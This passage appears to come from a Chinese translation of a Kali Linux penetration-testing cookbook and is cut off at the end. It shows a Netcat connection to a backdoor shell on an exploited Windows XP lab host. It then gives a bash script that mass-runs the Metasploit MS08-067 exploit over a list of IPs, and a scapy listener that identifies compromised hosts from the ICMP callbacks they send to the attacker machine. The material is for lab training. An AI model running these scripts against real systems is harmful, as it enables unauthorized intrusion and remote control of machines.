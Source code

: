 如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述表明，该脚本应该以一个参数执行，该参数指定了包含目标 IP 地址列表的文本文件的文件名。 一旦以这个参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始执行终端在它们被执行时输出进程列表，并且表明在每个终端上创建后门。 在每个终端中完成利用序列之后，Netcat 可以用于连接到由载荷打开的远程服务：

```
root@KaliLinux:~# nc -nv 172.16.36.225 4444 
(UNKNOWN) [172.16.36.225] 4444 (?) open 
Microsoft Windows XP [Version 5.1.2600] 
(C) Copyright 1985-2001 Microsoft Corp.

C:\> 
```

在提供的示例中，IP 地址为`172.16.36.225`的被利用的系统上的 TCP 4444 端口的连接，会生成可远程访问的`cmd.exe`终端服务。

### 工作原理

Netcat 是一个功能强大的工具，可以用于各种目的。 虽然这是远程执行服务的有效方式，但不建议在生产系统上使用此技术。 这是因为任何可以与监听端口建立 TCP 连接的人都可以访问 Netcat 打开的后门。

## 8.7 使用 ICMP 验证多线程 MSF 利用

该秘籍演示了如何使用 bash 利用跨多个系统的单个漏洞，并使用 ICMP 流量验证每个漏洞的成功利用。 这种技术需要很少的开销，并且可以轻易用于收集可利用的系统列表。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file>"; 
exit; fi

iplist=$1

for ip in $(cat $iplist)
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c ping \"172.16.36.239 -n 1 -i 15\"" 
    RHOST=$ip E   
    echo "Exploiting $ip and pinging" 
done 
```

此脚本与上一个秘籍中讨论的脚本不同，因为载荷仅仅从被利用系统向攻击系统发回 ICMP 回响请求。 在执行`ping`命令并使用`-i`选项来指定生存时间（TTL）为15 时。此备用TTL值用于区分利用生成的流量与正常 ICMP 流量。 还应该执行定制的 Python 监听器脚本，通过接收 ICMP 流量来识别被利用的系统。 这个脚本如下：

```
#!/usr/bin/python

from scapy.all import * 
import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def rules(pkt):   
    try:      
        if ((pkt[IP].dst=="172.16.36.239") and (pkt[ICMP]) and pkt[IP]. ttl <= 15):         
            print str(pkt[IP].src) + " is exploitable"      
    except:         
        pass

```